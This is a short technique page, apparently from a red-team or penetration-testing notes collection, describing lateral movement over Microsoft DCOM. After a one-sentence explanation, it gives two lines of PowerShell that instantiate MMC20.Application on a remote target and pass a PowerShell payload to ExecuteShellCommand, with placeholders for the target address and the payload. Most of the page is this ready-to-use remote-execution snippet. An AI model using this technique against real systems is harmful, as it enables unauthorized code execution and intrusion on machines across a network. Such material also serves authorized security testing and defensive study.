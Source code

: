 # DCOM

**Distributed Component Object Model** (DCOM) is a Microsoft technology that allows software components to communicate over a network, enabling remote procedure calls.&#x20;

The following PowerShell code uses DCOM to create an instance of the Microsoft Management Console (MMC) on a remote machine and executes a PowerShell command payload through the MMC's shell command interface.

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target_ip>"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<payload>","7")
```

